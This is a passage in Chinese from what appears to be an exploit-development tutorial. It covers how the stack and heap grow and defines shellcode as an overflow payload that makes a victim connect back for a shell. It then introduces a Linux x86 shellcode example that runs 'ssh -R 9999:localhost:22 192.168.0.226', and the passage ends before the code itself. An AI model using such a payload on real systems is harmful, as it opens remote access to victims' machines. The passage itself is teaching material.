 ![](img/00016.jpeg)

看看**堆**和**栈**是如何增长的；**栈**从**高内存**增长到**低内存**，而**堆**从**低内存**增长到**高内存**。

# 什么是 shellcode？

Shellcode 就像是用机器语言编写的溢出利用中使用的有效载荷。因此，shellcode 用于在利用易受攻击的进程后覆盖执行流程，比如让受害者的机器连接回您以生成一个 shell。

下一个示例是用于 Linux x86 SSH 远程端口转发的 shellcode，执行`ssh -R 9999:localhost:22 192.168.0.226`命令：

